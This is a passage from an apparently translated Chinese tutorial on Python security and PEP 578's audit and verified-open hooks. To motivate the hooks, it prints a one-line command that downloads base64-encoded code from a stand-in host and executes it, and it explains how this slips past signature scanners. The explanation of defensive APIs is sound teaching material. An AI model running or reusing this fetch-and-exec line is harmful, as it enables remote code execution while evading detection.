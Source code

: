 不仅如此，日志通常会被过滤，只显示错误和类似问题，而不是微小的差异。一个编写良好的 APT 程序不应该导致此类错误，因此它们不会被正常的日志审查所检测。一种可能的方法是将恶意软件编写为使用目标系统上已经安装的工具，这样恶意软件的使用就会隐藏在正常的、预期的流量中。

# Python 和安全

Python 因其常见于服务器和开发机器而受到安全目的的欢迎，无论是积极的还是消极的。它允许执行代码而无需使用预编译的二进制文件，并且没有内部审计。例如，`launch_malware.py`（在 PEP 中提供）展示了使用单个 Python 命令下载、解密和执行恶意软件是多么容易：

```py
python -c "import urllib.request, base64;
    exec(base64.b64decode(
        urllib.request.urlopen('http://my-exploit/py.b64')
    ).decode())"
```

此代码告诉 Python 解释器执行提供的命令。该命令导入两个库（`urllib.request`和`base64`*），然后告诉系统执行从网站下载的`base64`编码文件解码后的命令。

目前，大多数依赖于签名文件或其他可识别代码的安全扫描工具不会将此命令识别为恶意，因为`base64`编码通常足以欺骗这些系统。由于没有文件访问，并且假设 Python 被列为允许访问网络和互联网的批准系统应用程序，此命令将绕过任何阻止文件访问、检查权限、自动审计和登录以及验证批准应用程序的检查。

由于没有系统是 100%安全的，特别是如果它必须与其他系统通信，许多安全专家假设他们的系统已经被攻击，但他们还没有发现攻击。因此，检测、跟踪和移除恶意软件是安全活动的主要焦点。这就是 Python 发挥作用的地方；能够看到 Python 运行时解释器在任何给定时间正在做什么可以帮助指示是否正在发生恶意或至少异常的活动。

# 如何做到这一点...

本 PEP 的核心是引入了两个 API，使系统管理员能够将 Python 集成到他们的安全设置中。关键因素是这些 API 不对系统的配置或行为施加某些限制：

1.  审计钩子 API 允许操作生成消息并将它们传递到堆栈上的操作员。这些操作通常被埋藏在 Python 运行时或标准库中，防止正常访问它们，例如模块导入、DNS 解析或动态代码编译。

以下代码展示了 PEP 如何在 Python 的底层 C 代码中定义 API。新的 Python 审计钩子 API 显示在`audit_hook_api.py`中：

```py
      # Add an auditing hook
      sys.addaudithook(hook: Callable[str, tuple]) -> None

      # Raise an event with all auditing hooks
      sys.audit(str, *args) -> None
```

1.  通过在 Python 代码中调用`sys.addaudithook()`或在 C 代码的底层调用`PySys_AddAuditHook()`，可以添加审计钩子。钩子不能被删除或替换。现有的钩子了解审计，因此添加新的钩子（也是被审计的）可能会导致现有的钩子抛出异常，如果尝试添加新的钩子：

+   +   当发生感兴趣的事情时，调用`sys.audit()`。字符串参数是事件的名称，其余参数是开发者认为为审计所必需的任何内容。

    +   在审计过程中，每个钩子以先进先出（FIFO）的方式被审查。如果钩子返回异常，则忽略后续的钩子，Python 解释器应该退出（一般来说）。当然，开发者可以自由决定异常发生时会发生什么，例如记录事件、中止操作或终止进程。

    +   如果在审计发生时没有设置任何钩子，则不会发生太多事情。审计调用应该对系统的影响最小，因为参数应该是现有数据的引用，而不是计算。

    +   由于钩子可能是 Python 对象，因此在调用 `finalize` 函数时需要释放它们。除了释放钩子之外，`finalize` 还将释放任何使用的堆内存。虽然这是一个私有函数，但它确实触发了所有审计钩子的事件，以确保记录意外的调用。

1.  验证开放钩子 API 设计为提供一种方法来识别可执行文件与不可执行文件。显然，这对于安全系统来说是一个重要功能，可以防止执行在特定环境中不应允许运行的命令、代码或数据。以下代码定义了 API 的 C 代码。

验证开放钩子的 Python API 显示在 `hook_handler_api.py` 中：
